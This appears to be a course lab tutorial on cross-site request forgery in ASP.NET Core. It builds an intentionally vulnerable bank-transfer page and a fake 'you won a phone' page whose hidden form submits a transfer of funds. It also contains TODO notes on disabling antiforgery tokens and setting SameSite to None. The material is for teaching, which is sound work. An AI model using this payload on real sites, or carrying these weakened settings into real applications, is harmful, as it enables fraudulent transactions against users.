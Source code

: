 # Cross-Site Request Forgery (XSRF/CSRF) attacks 

<!-- vscode-markdown-toc -->
* 1. [Objectives](#Objectives)
* 2. [Documentation](#Documentation)
* 3. [Step 1 - Create an application with individual user accounts](#Step1-Createanapplicationwithindividualuseraccounts)
* 4. [Step 2 - Add the CSRF vulnerable webpage](#Step2-AddtheCSRFvulnerablewebpage)
* 5. [Malicious or infected web site](#Maliciousorinfectedwebsite)
* 6. [Attacks](#Attacks)
* 7. [Bibliography](#Bibliography)

<!-- vscode-markdown-toc-config
	numbering=true
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc --> 

##  1. <a name='Objectives'></a>Objectives

##  2. <a name='Documentation'></a>Documentation
Cross-site request forgery (also known as XSRF or CSRF, pronounced see-surf) is an attack against web-hosted apps whereby a malicious web app can influence the interaction between a client browser and a web app that trusts that browser. These attacks are possible because web browsers send some types of authentication tokens automatically with every request to a website. This form of exploit is also known as a one-click attack or session riding because the attack takes advantage of the user's previously authenticated session.

> Recommended further reading: OWASP (description of the vulnerability in general): https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF); CSRF in ASP.NET: https://docs.microsoft.com/en-us/aspnet/core/security/anti-request-forgery

# Vulnerable website - IronBank Web'Banking

##  3. <a name='Step1-Createanapplicationwithindividualuseraccounts'></a>Step 1 - Create an application with individual user accounts

1. Create a new ASP.NET Core Web Application project. 

2. Choose the "Web Application (Model-View-Controller)" template. Select the "Indvidual User Accounts" as an authentication option, as shown below.

    ![](media/change-authentication.png)

3. Notice that in the `Data` folder the applciation already includes the necessary database migrations.

4. Create an SQL Server database and update the connection string in `appsettings.json`.

5. Run the application.

6. Choose the "Register" link and create a new account.

##  4. <a name='Step2-AddtheCSRFvulnerablewebpage'></a>Step 2 - Add the CSRF vulnerable webpage

1. Add a new controller, called `BankAccountController`.
2. Decorate the controller using the `[Authorize]` annotation in order to prevent any unauthenticated requests towards the actions on this controller.
2. Add an action called `Transfer` to the `BankAccountController` as follows.

    ```C#
    public IActionResult Transfer()
    {
        return View();
    }
    ```

3. Add a new viewmodel class to the `Models` folder.

    ```C#
    public class TransferViewModel
    {
        public string DestinationAccount { get; set; }
        public decimal Amount { get; set; }
    }
    ```

4. Add a new View for the `Transfer` action.

    ```CSHTML
    @model TransferViewModel
    @{
        ViewData["Title"] = "Transfer";
    }

    <h2>Transfer</h2>

    @if(ViewBag.Message != null)
    {
        <div class="alert alert-danger">
            @ViewBag.Message
        </div>
    }

    <form method="post">
        <label asp-for="DestinationAccount"></label>
        <input asp-for="DestinationAccount" />
        <label asp-for="Amount"></label>
        <input asp-for="Amount" />
        <input type="submit" />
    </form>
    ```

5. Add a POST method for the form in the View

    ```C#
    [HttpPost]
    public IActionResult Transfer(TransferViewModel transfer)
    {
        if(ModelState.IsValid)
        {
            ViewBag.Message = $"You have transfered {transfer.Amount} euros to {transfer.DestinationAccount}.";
        }
        return View(transfer);
    }
    ```

##  5. <a name='Maliciousorinfectedwebsite'></a>Malicious or infected web site

> :octocat: Full source code available, check the `8 - Vulnerabilities - CSRF (Cross-Site Request Forgery)` folder.

1. Create an `html` file with the following content.

    ```HTML
    <!DOCTYPE html>
    <html>
    <head>
        <title>Malicious or infected web site</title>
    </head>
        <body style="text-align:center;">

            <img src="winner.jpg">

            <h1>Congratulations!</h1>
            <h1>You have won a Samsung Galaxy Fold (2.000 euros)!!!!</h1>
            <form action="http://good-banking-site.com/api/account" method="post">
                <input type="hidden" name="DestinationAccount" value="RO85INGBXXXXXXXXXX">
                <input type="hidden" name="Amount" value="1000000">
                <input type="submit" value="Click to collect your prize!">
            </form>


        </body>
    </html>
    ```

2. You will need to replace "http://good-banking-site.com/api/account" with the actual address of the vulnerable form (ex: https://localhost:5001/BankAcount/Transfer).

##  6. <a name='Attacks'></a>Attacks

1. 
//asp-antiforgery="false"
//TODO Method using GET
// [ValidateAntiForgeryToken]

2. //TODO Method using POST. Check the cookie policy in Google Chome. Change the same site policy to none

    ```C#
    services.ConfigureApplicationCookie(options =>
    {
        options.Cookie.SameSite = SameSiteMode.None;
    });
    ```

##  7. <a name='Bibliography'></a>Bibliography
- Prevent Cross-Site Request Forgery (XSRF/CSRF) attacks in ASP.NET Core: https://docs.microsoft.com/en-us/aspnet/core/security/anti-request-forgery?
- OWASP CSRF: https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)